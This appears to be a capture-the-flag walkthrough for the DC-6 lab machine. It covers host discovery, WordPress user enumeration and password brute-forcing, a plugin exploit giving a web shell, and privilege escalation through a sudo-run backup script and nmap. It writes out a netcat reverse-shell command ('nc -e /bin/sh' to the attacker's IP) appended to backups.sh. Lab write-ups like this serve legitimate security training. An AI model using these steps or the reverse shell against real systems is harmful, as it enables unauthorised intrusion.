 

### **Netdiscover**

![netdiscover](images/dc6/netdiscover.png)

We use the tools called netdiscover scan hosts, we found the 192.168.0.141 is our target virtualbox host ip.

------

### **Namp**

![nmap](images/dc6/nmap.png)

We found some services  <u>HTTP</u>, <u>SSH</u>

------

### Solution

![scan](images/dc6/index.png)

This a website powered by wordpress, so we use wpscan to do it.

![user](images/dc6/user.png)

Found these users: admin, mark, graham, sarah , jens.but no clues, so we only use password dictionary to brute force it

![sarah](images/dc6/sarah.png)

![graham](images/dc6/graham.png)

![mark](images/dc6/mark.png)

We found mark' password ==> helpdesk01, so we login in admin page.

![manage](images/dc6/manage.png)

search a while, but nothing adout templates found, so we decided to search activity monitor with google.

![google](images/dc6/google.png)

![exploit](images/dc6/exploit.png)

So we insead ip in pictures with our ip, open html in broswer

![nc1](images/dc6/nc1.png)

![www-data](images/dc6/www-data.png)

Let's look /home directory file and folder.

![ls](images/dc6/ls.png)

Wo found backups.sh and stuff folder may be a clue.

According to the things-to-do.txt, we found graham's password

![txt](images/dc6/txt.png)

So We ssh with user graham.

![ssh-graham](images/dc6/ssh-graham.png)

look with graham wether has a sudo privilege.

![sudo1](images/dc6/sudo1.png)

So we append a command to this backups.sh.

 `echo 'nc -e /bin/sh 192.168.0.104 9999'`

`sudo -u jens ./backups.sh`

![nc2](images/dc6/nc2.png)

ook with jens wether has a sudo privilege.

![sudo2](images/dc6/sudo2.png)

So let's use nmap script to escalate root privilege.

![namp_escalate](images/dc6/namp_escalate.png)

![flag](images/dc6/flag.png)

Successfully!!!!

------

**That' all , Thanks for your watching**